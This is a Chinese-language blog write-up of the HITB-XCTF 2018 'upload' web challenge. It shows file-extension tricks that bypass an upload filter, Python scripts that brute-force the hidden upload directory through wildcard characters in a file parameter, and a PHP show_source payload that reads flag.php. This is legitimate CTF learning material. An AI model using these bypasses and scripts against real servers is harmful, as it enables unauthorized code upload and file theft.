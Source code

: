 ```yaml
---
layout: post
title: HITB-XCTF 2018 Web upload writeup
author: Qiqi
date: 2018-4-27
header-img: img/-l35KO8ORiE.jpg
catalog: true
tag:
   - Web安全
   - CTF
   - Writeup
---
```


# HITB-XCTF 2018 Web upload writeup

只想说自己也是菜到一定境界了，啥也不会，全靠师傅们带飞，没有师傅们的思路，这题我肯定是无法当场复现了

这是一道文件上传

如果上传`.php`的文件，就会返回`no no no…`

如果上传`.jpg`的文件，就能成功上传并返回文件名，例如`1523666237.jpg`

右键查看源代码，发现了一行注释`<!--pic.php?filename=default.jpg-->`

于是我们去访问`47.90.97.18:9999/pic.php?filename=default.jpg`

返回了图片的宽和高，访问我们自己上传的图片也一样

现在我们要上传一个php文件

这里我们有很多种绕过方式，比如`1.php+空格`，或者`1.php::$DATA`都可以成功上传php文件

抓包修改文件名，成功上传php文件`1523668693.php `

现在我们访问`47.90.97.18:9999/pic.php?filename=1523668693.php `

页面返回`image error`

看来这个页面并不能读取到我们上传的php文件

不管能否解析，我们都先得找到文件上传的目录

尝试利用通配符

![](https://ws1.sinaimg.cn/large/006Vib6xly1fqbxv860wsj30ib03974v.jpg)

成功了，说明可以爆破

经过进一步尝试，感觉像是串md5

于是改进代码如下：

```python
import requests

url = "http://47.90.97.18:9999/pic.php?filename=../{}%3C/1523452862.jpg"
strs = "abcdef0123456789"
get = ""
for j in xrange(32):
    for i in strs:
        tmpurl = url.format(get + i)
        print tmpurl
        if 'image error' not in requests.get(tmpurl).content:
            get += i
            print '[+]' + get
            break
```

运行一下得到目录：`87194f13726af7cee27ba2cfe97b60df`

我们现在去访问`http://47.90.97.18:9999/87194f13726af7cee27ba2cfe97b60df/1523668693.php`

![](https://ws1.sinaimg.cn/large/006Vib6xly1fqby3u7hc1j30z90iidjp.jpg)

发现我们上传的php文件代码被成功解析（撒花～～）

我们去看一下`disable_functions`栏

```
assert,passthru,exec,system,chroot,scandir,chgrp,chown,shell_exec,proc_open,proc_get_status,ini_alter,ini_alter,ini_restore,dl,pfsockopen,openlog,syslog,readlink,symlink,popepassthru,stream_socket_server,fsocket,fsockopen
```

这么多函数都被禁了，但是我们发现`echo`没有被禁

尝试了各种方法来命令执行，可是都不成立

所以还是拿去扫了一下目录，看到`flag.php`

然后我们用`show_source()`或者`highlight_file()`函数查看一下源代码

Payload:

```php
<?php
echo show_source('../flag.php');
?>
```

访问上传的文件，获得flag

附上看wp时看到的别人写的一个脚本

```python
import requests
import string
sess = requests.session()

name = ''
while True:
    print(name)
    for i in string.digits + string.ascii_letters:
        guess = name + str(i)
        if 'image error' not in sess.get('http://47.90.97.18:9999/pic.php?filename=../' + guess + '%3C/1523462240.jpg').text:
            name += str(i)
            break
```

> 参考：`http://www.madchat.fr/coding/php/secu/onsec.whitepaper-02.eng.pdf`
>
> `>`会被替换成`?`，也就是单一字元，`<`会被替换成`*`，也就是任意长度字元，`"`会被替换成`a.`
